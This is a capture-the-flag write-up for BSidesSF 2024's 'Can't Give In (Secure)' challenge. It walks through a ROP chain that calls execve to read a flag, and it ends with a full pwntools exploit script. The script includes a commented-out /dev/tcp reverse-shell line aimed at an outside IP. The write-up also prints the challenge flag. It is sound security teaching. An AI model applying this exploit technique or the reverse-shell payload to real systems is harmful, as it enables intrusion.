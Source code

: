 # Can't Give In (Secure)

## Description
Can you get a shell?

_Note: this is similar to cant-give-in, but the stack is no longer executable_

Flag is located in: `/home/ctf/flag.txt`

Author: ron

http://cant-give-in-secure-05060d6d.challenges.bsidessf.net:8080

## Approach
> Same, same, but different. Still can't get a shell tho.

Given a binary with protection as below.
```
[*] "/mnt/d/ctf-writeups/BsideSSF 2024/Can't Give In (Secure)/auth.cgi"
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

So this challenge is the same as [Can't Give In](../Can't%20Give%20In). But with additional NX protection, we can't just write a shellcode and jump to it. So i opted to another technique that is ROP-ing.

Looking at the disassembled binary, it is still the same.

![alt image text](../Can't%20Give%20In/assets/image-3.png)

Still, i can't pop a shell because of unknown reason _(skill issue)_. So i decided to just read the flag. To read the flag, i need to call `execve` exactly like this:

```
execve('/bin/sh', ["/bin/sh", "-c", "cat /home/ctf/flag.txt"], NULL)
```

Simple right? Just put the the right thing in the right place and it should have worked? Not really.

So after consulting with my [friend](https://github.com/HyggeHalcyon) (Credit to him), i realized that execve is actually like this:

```
execve(const char *pathname, char *const argv[], char *const envp[])
```

If this was a regular pwn challenge, we could just put the address of `/bin/sh` in the first argument, zeroed out the second and third argument and still pop a shell. But this time, we need to specify what argument to pass into the `/bin/sh`, in this case, we need to pass `"/bin/sh", "-c", "cat /home/ctf/flag.txt"`.

Argv is actually a `pointer, pointing to a pointer that is pointing to the string` ([explained better by my friend here](https://hyggehalcyon.gitbook.io/page/ctfs/2024/bsidessf-ctf#exploitation-1)). So what we need to do is to just write the address of the address that is pointing to the string.

For this to work, we need to write the argument to a known address, thankfully, there is a gadget that can do that.

```
[+] Gadget found: 0x43b0f1 mov qword ptr [rsi], rax ; ret
[+] Gadget found: 0x40f782 pop rsi ; ret
[+] Gadget found: 0x4387a7 pop rax ; ret
[+] Gadget found: 0x42b8a0 xor rax, rax ; ret
```

The next step is to look for writable section of the address. Upon inspection, i found out that at address `0x4a7380` is writable, and it didn't have any data on it, perfect!

![Huge writable section](assets/image.png)

Now we need to use our `write-what-where` gadget that we have found earlier. To make it easier for us to specify the `what` and the `where`, i wrote a function for it.

```python
def www(what, where):
    pop_rsi = 0x40f782
    pop_rax = 0x4387a7
    mov_rsi_rax = 0x43b0f1
    
    payload = flat(
        pop_rsi,
        where,
        pop_rax,
        what,
        mov_rsi_rax,
    )
    return payload
```

After finding the offset, we need to put our argument using the write-what-where gadget:

First we write our arguments on the memory.
```python
www(what1, addr), # /bin/sh
www(what2, addr + 8), # -c
www(spawn_shell[0], addr + 16), # cat /home/ctf/flag.txt
www(spawn_shell[1], addr + 24),
www(spawn_shell[2], addr + 32),
```

Then we need to put the address of the string to another location in the memory, so that argv correctly points to the string.
```python
www(addr, addr + 40), # points to pointer to /bin/sh
www(addr + 8, addr + 48), # points to pointer to -c
www(addr + 16, addr + 56), # points to pointer to cat /home/ctf/flag.txt
```

Here is the arguments when calling execve:
```
► 0x4011a2 <abort+137>       syscall  <SYS_execve>
        path: 0x4a7380 (_dl_static_dtv+32) ◂— 0x68732f6e69622f /* '/bin/sh' */
        argv: 0x4a73a8 (_dl_static_dtv+72) —▸ 0x4a7380 (_dl_static_dtv+32) ◂— 0x68732f6e69622f /* '/bin/sh' */
        envp: 0x0
```

And here is the content of the memory after we write to it:
![alt text](assets/image-1.png)
```
pwndbg> x/64gx 0x4a7380
0x4a7380 <_dl_static_dtv+32>:   0x0068732f6e69622f      0x000000000000632d
0x4a7390 <_dl_static_dtv+48>:   0x6d6f682f20746163      0x6c662f6674632f65
0x4a73a0 <_dl_static_dtv+64>:   0x00007478742e6761      0x00000000004a7380
0x4a73b0 <_dl_static_dtv+80>:   0x00000000004a7388      0x00000000004a7390
0x4a73c0 <_dl_static_dtv+96>:   0x0000000000000000      0x0000000000000000
0x4a73d0 <_dl_static_dtv+112>:  0x0000000000000000      0x0000000000000000
```

And we don't even have to worry terminating the `argv` arrays with null bytes, because the section of the memory already does it for us.

Sending our payload to the server and we get the flag!
![alt text](assets/image-2.png)

## Exploit
```py
#!/usr/bin/python3
from pwn import *
import requests

# =========================================================
#                          SETUP
# =========================================================
exe = "./auth.cgi"  # <-- change this
elf = context.binary = ELF(exe, checksec=True)
context.log_level = "debug"
context.terminal = ["tmux", "splitw", "-h"]

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
        return process([exe] + argv)

gdbscript = """
init-pwndbg
break main
""".format(
    **locals()
)

def www(what, where):
    pop_rsi = 0x40f782
    pop_rax = 0x4387a7
    mov_rsi_rax = 0x43b0f1
    
    payload = flat(
        pop_rsi,
        where,
        pop_rax,
        what,
        mov_rsi_rax
    )
    return payload


# =========================================================
#                         EXPLOITS
# =========================================================
def exploit():
    global io
    # io = initialize()
    # rop = ROP(exe)

    what1 = b"/bin/sh\x00"
    what2 = b"-c\x00\x00\x00\x00\x00\x00"
    # spawn_shell = [b'sh -i >&', b' /dev/tc', b'p/18.136', b'.118.43/', b'1337 0>&', b'1\x00\x00\x00\x00\x00\x00\x00']
    spawn_shell = [b'cat /hom', b'e/ctf/fl', b'ag.txt\x00\x00', b'\x00\x00\x00\x00\x00\x00\x00\x00', b'\x00\x00\x00\x00\x00\x00\x00\x00', b'\x00\x00\x00\x00\x00\x00\x00\x00'] # cat flag doang
    
    pop_rax = 0x4387a7
    pop_rdi = 0x401d90
    pop_rsi = 0x40f782
    pop_rdx_rbx = 0x4696d7
    syscall = 0x4011a2
    addr = 0x4a7380
    
    offset = 168
    payload = flat({
        offset: [
            www(what1, addr), # /bin/sh
            www(what2, addr + 8), # -c
            www(spawn_shell[0], addr + 16), # cat /home/ctf/flag.txt
            www(spawn_shell[1], addr + 24),
            www(spawn_shell[2], addr + 32),
            
            www(addr, addr + 40), # points to /bin/sh
            www(addr + 8, addr + 48), # points to -c
            www(addr + 16, addr + 56), # points to cat /home/ctf/flag.txt
            
            pop_rdi,
            addr,
            
            pop_rsi,
            addr + 40,
            
            pop_rdx_rbx,
            0,
            0,
            
            pop_rax,
            0x3b,
            syscall
        ]
    })
    
    response = requests.post("http://cant-give-in-secure-05060d6d.challenges.bsidessf.net:8080/cgi-bin/auth.cgi", data=payload)
    print(response.text)
    # write("payload", payload)
    
    # io.send(payload)
    # io.interactive()


if __name__ == "__main__":
    exploit()
```


## Flag
```
CTF{computational-genius-institute}
```